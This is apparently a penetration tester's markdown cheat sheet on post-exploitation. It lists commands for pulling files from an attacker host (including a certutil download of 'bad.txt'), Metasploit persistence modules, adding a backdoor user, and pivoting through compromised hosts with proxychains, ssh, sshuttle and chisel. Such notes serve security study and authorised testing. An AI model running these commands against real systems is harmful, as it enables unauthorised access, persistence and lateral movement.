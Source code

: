 ## Post Exploitation - Review

### 🚩 File transfers
* python -m SimpleHTTPServer 80
* python -m pyftpdlib 21 (attacker ip)
*   ftp attackerip (windows machines)
* Certutil.exe -urlcache -f http://ip.address/bad.txt output.txt
* wget (linux machines)
* metasploit

---

### 🚩 Maintaining access

#### Persistence Scripts (Metasploit)
* run persistence -h
* exploit/windows/local/persistence
* exploit/windows/local/registry_persistence

#### Scheduled Tasks
* run scheduleme
* run schtaskabuse

#### Add a user
* net user FakeUser Password1 /add

---

### 🚩 Pivoting - Using a compromised device as a condui to reach new locations. For situations when a secondary device is only reachable through a compromised device, or for more covert activities (more in the realms of Red Teaming).

#### 🔴 Proxychains: Bind port, Proxychain, Proxy  
Scenario:
1. device 1 has access to device 2 which is unreachable from our attacker machine device 0  
2. proxychain and bind port is setup on device 0  
3. proxy tunnel on devive 1  
4. target is device 2

check our proxychain config file and edit the bind port if required  

         cat /etc/proxychains4.conf

now we ssh into device 1, -f backgrounds the ssh, -N do not execute remote commands only port forward, -D to bind on port, -i pivot the ssh private key file combined with the username.

         ssh -f -N -D 9050 -i pivot root@10.10.155.5

now we can run commands on device 2

         proxychains nmap -p88 10.10.10.255 (syn scan)
         proxychains nmap -p88 10.10.10.255 sT (tcp scan, could be better)

#### 🔴 Xfreerdp: RDP pivot into a device by placing proxychains infront of the normal syntax
   
      proxychains xfreerdp /u:administrator /p:'Password1' /v:10.10.10.225

#### 🔴 Sshuttle

      sshuttle -r user@ip.of.device1 ip.of.target/24 --ssh-cmd "ssh -i pivot"
      
keeping the sshuttle terminal live, move to new terminal. Aslong as the sshuttle terminal is up we can execute commands in the new terminal without having to type 'proxychains' infront of every command if using proxychain.

#### 🔴 Chisel
another tool used for pivoting and tunneling. 

---

### Cleaning up


